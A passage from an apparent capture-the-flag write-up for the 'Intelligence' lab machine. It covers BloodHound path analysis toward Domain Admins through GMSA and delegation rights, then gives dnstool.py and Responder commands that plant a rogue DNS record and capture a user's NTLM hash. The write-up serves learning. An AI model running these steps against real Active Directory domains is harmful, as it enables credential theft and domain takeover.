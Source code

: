 I search out Tiffany and mark her as owned to start with.

Looking at Domain Admins it just shows the Administrator user.

There are no kerberoastable or as-rep roastable users.

Running shortest paths to domain ddmins shows us that Ted.Graves and Laura.Lee are a member of ITSUPPORT which can read the GMSA password for SVC_INT$, which is allowed to delegate to DC.INTELLIGENCE.HTB, which can DCSync.

Running shortest paths to unconstrained delegation systems also shows that Ted.Graves and Laura.Lee are a member of ITSUPPORT which is a member of SVC_INT$ which has delegation rights on the domain controller.

So it's looking like we need the credentials for either Ted or Laura.

The only place we've really seen anything on either is the powershell script that sends an email over to Ted, so let's start with that.

<br>

## DNS Manipulation

We saw the script was reaching out to anything in the DNS starting with web, so let's see if we can add a DNS entry that will have the script connect over to us and see what we can capture with Responder. Hopefully it's a hash for Ted.

[**This article explains how to perform the unconstrained delgation attack.**](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)

The dstool.py isn't installed on Kali by default but you can [**find a copy here**.](https://github.com/dirkjanm/krbrelayx/tree/master)

I couldn't get it working with Kali, so I tried on a fresh Parrot install and it worked with no issues. I also had to install pycryptodome along with this since that's a dependency.

`python3 dnstool.py -u 'intelligence\Tiffany.Molina' -p <REDACTED> -r webnew.intelligence.htb -a add -t A -d 10.10.14.51 10.129.95.154`

![](images2/intelligence13.png)

I start up Responder and wait. This can take awhile since the script said it only runs every 5 minutes.

`sudo responder -I tun0`

![](images2/intelligence14.png)
